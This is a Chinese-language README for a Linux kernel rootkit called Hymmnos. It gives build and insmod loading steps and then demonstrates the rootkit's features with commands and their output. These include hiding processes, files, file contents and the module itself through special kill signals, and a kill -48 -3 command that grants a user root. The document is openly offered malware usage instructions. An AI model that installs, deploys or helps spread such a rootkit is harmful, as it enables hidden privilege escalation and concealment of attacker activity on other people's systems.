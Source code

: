 ## 使用文档

### **构建**



1. 克隆源代码

	    $ cd ~
	    $ git clone https://github.com/flysoar/Hymmnos-rootkit.git
 
2. 从源码构建

	    $ cd Hymmnos-rootkit
	    $ make
    
3. 加载入内核

    	$ sudo insmod hymmnos.ko

### **使用**

- 隐藏文件夹自身 —— 将源代码文件夹改名为 *hymmnos*。

        $ cd ..
    	$ mv Hymmnos-rootkit/ hymmnos/
    
	![hide_document_after](/screenshot/hide_document_after.png)

	![hide_document_before](/screenshot/hide_document_before.png)



- 隐藏特定进程

  1. 未隐藏进程之前
	
     		$ ps aux | grep hymmnos

    	 返回

		     henry     3436  0.0  0.0  21536  1028 pts/0    S+   13:20   0:00 grep --color=auto hymmnos


  2. 隐藏进程（kill -49 命令）

		     $ top
		     $ ps aux | grep top
		     henry     1593  0.0  1.4 813092 57416 tty2     Sl+  11:33   0:01 nautilus-desktop
		     henry     3496  1.3  0.0  48940  3772 pts/0    S+   13:32   0:00 top
		     henry     3518  0.0  0.0  21536  1136 pts/1    S+   13:33   0:00 grep --color=auto top
		     $ kill -49 3496
		     $ ps aux | grep top
		     henry     1593  0.0  1.4 813092 57416 tty2     Sl+  11:33   0:01 nautilus-desktop
		     henry     3520  0.0  0.0  21536  1064 pts/1    S+   13:33   0:00 grep --color=auto top


  3. 恢复进程（卸载模块）

		     $ sudo rmmod hymmnos
		     $ ps aux | grep top
		     henry     1593  0.0  1.4 813092 57416 tty2     Sl+  11:33   0:01 nautilus-desktop
		     henry     3496  1.3  0.0  48940  3772 pts/0    S+   13:32   0:05 top
		     henry     3581  0.0  0.0  21536  1008 pts/1    S+   13:39   0:00 grep --color=auto top

- 隐藏模块

	1. 隐藏 *hymmnos* 模块（kill -50 7 命令）

		     $ cat /proc/modules | grep hymmnos
		     hymmnos 24576 0 - Live 0x0000000000000000 (OE)
		     $ kill -50 7
		     $ cat /proc/modules | grep hymmnos

  2. 恢复 *hymmnos* 模块（kill -50 7 命令）

	     ```bash
	     $ kill -50 7
	     $ cat /proc/modules | grep hymmnos
	     hymmnos 24576 0 - Live 0x0000000000000000 (OE)
	     ```


- 获取 root 权限（kill -48）

		  $ kill -48 -3
		  $ whoami
		  root



- 隐藏特定文件
	1. 未加载模块时的文件存在
	![hide_document_after](/screenshot/test-9.png)

	2. 加载模块之后，文件被隐藏
	![hide_document_after](/screenshot/test-10.png)

	3. 卸载模块之后，隐藏的文件被显示
	![hide_document_after](/screenshot/test-11.png)

- 使用kill -51命令可以隐藏或显示文件内容
	1. 首先在当前目录下新建一个文件，内容可定义如下（实际上只要包含<touwaka>标签就可以）；此时模块还没有有加载；并且内容是显示的。
	![hide_document_after](/screenshot/test-12.png)

	2. 接着加载模块，此时文件内容中的<touwaka>标签中的内容被隐藏。
	![hide_document_after](/screenshot/test-13.png)
	
	3. 分别使用kill -51命令可以隐藏或显示文件内容
	![hide_document_after](/screenshot/test-14.png)

- 对包含指定字段的进程隐藏

	1. 加载模块之前，能看到含有“ceil”字段的进程
	![hide_document_after](/screenshot/test-15.png)

	2. 加载模块之后看不到含有“ceil”字段的进程
	![hide_document_after](/screenshot/test-16.png)

	3. 卸载之后又可以看到含有“ceil”字段进程
	![hide_document_after](/screenshot/test-17.png)